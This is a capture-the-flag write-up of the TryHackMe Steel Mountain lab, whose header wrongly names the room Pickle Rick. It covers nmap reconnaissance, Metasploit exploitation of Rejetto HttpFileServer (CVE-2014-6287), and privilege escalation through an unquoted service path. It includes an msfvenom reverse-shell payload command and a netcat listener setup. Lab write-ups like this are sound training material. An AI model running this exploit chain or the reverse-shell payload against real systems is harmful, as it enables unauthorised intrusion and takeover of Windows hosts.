# Steel Mountain Writeup

Platform: TryHackMe  
Room: Pickle Rick  
Link: [https://tryhackme.com/room/steelmountain](https://tryhackme.com/room/steelmountain)
Target: <target_ip>

# 1. Reconnaissance

I started with a default Nmap scan to quickly identify open ports and services:

```bash
nmap -sC -sV -Pn <target_ip>
```
This scan identified multiple Windows services including HTTP, SMB, and RPC. A web service was discovered on port 80.

To ensure no services were missed, I followed up with a full port scan:

```bash
nmap -p- -Pn <TARGET_IP>
```

The scan revealed that port 8080 was running: HttpFileServer version 2.3



This service is known to have publicly available vulnerabilities.

# 2. Web Enumeration

Visiting the web server on port 80 revealed a company webpage containing an “Employee of the Month” section. By inspecting the image, I identified the employee as:

Bill Harper

# 3. Service Enumeration

Accessing the service in a browser confirmed it was a file-sharing web interface:

```bash
http://<TARGET_IP>:8080
```



# 4. Vulnerability Research

Using Searchsploit, I identified a known Remote Code Execution vulnerability affecting this service:

```bash
searchsploit HttpFileServer
```



This revealed an exploit targeting HttpFileServer 2.3.x, associated with CVE-2014-6287, which allows remote command execution via a crafted HTTP request.

# 5. Exploitation Preparation & Execution

Next we start up Metasploit and we search for Rejetto 



For this exploit we need to set a few parameters first. We set RHOST to the target ip address.
We set RPORT to 8080 which is the port of the web server.
Next we set LHOST to our ip address and LPORT to a free port.



---



# 6. Privilege Escalation

To enumerate this machine we are asked to download a powershell script called PowerUp which is used to evaluate a Windows machine and determine any abnormalities.



After downloading it we can upload it into Metasploit and get a PowerShell shell.



```Invoke-AllChecks``` - outputs any vulnerabilites that can be discovered, as well as descriptors for any abuse functionalities.

One of the questions we are asked in this room is which service has the CanRestart option set to True and also shows up as an unquoted service path vulnerability.



The anser is the AdvancedSystemCareService9

Next we are told to use msfvenom to generate a reverse shell as a Windows executable using the following command:

```msfvenom -p windows/shell_reverse_tcp LHOST=CONNECTION_IP LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe```



We navigate to the IObit directory where the AdvancedSystemCareService9 is located and we upload our executable.



We start a netcat listener on port 4443 which is the same as the LPORT paramater in the previous command.



Now all we have to do is stop the service AdvancedSystemCareService9 and then restart it but this time our reverse shell will start instead because the Advanced.exe is before the
AdvancedSystemCareService9.



And we get our reverse shell on our listener.



All thats left is to find the root flag.


